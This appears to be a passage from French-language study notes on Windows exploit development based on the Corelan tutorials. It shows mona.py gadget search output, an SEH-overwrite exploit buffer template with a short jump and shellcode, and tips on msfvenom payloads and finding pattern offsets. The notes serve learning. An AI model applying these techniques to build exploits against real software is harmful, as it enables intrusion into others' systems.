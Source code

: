 ``` text
48021B81     0x48021b81 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480244D2     0x480244d2 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480263C6     0x480263c6 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open seh.txt...
0BADF00D       Found a total of 440 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.622000
```

Il faut ensuite ajouter un short jump avant l'adresse. L'exploit construit aura la forme suivante:

``` text
content = "A"*(offset-4)+"\x90\xeb\x05\x90"+"\x6e\xc8\x02\x48"+nop*32+buf+nop*1000
```

### Payloads

Lors de l'utilisation de MSFVenom pour créer un payload il est important d'ajouter le paramètre suivant:

``` text
EXITFUNC=SEH
```

Partie 4: Speed Up Exploit Dev
------------------------------

Basé sur la quatriéme partie du cours de [Corelan](https://www.corelan.be/index.php/2009/09/05/exploit-writing-tutorial-part-5-how-debugger-modules-plugins-can-speed-up-basic-exploit-development/).

**Note**: dans le cours de Corelan on présente des outils pour WinDBG. Dans ce wiki on se concentre sur mona & Immunity.

### Trouver un pattern

Il est possible de trouver l'offset d'un pattern avec mona:

``` python
!mona pattern_offset 43386F43
!mona po 43386F43
```

Partie 6: Bypassing Stack Cookies, SafeSeh, SEHOP, HW DEP and ASLR
------------------------------------------------------------------

Basé sur la sixième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/) sur le développement d'exploits.

